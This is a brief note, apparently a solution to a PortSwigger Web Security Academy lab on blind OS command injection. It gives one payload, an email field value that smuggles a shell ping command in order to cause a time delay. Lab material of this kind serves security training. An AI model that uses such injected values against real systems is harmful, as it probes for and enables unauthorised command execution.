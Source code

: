 # Lab

https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

## Payload

`email=x||ping+-c+10+127.0.0.1||`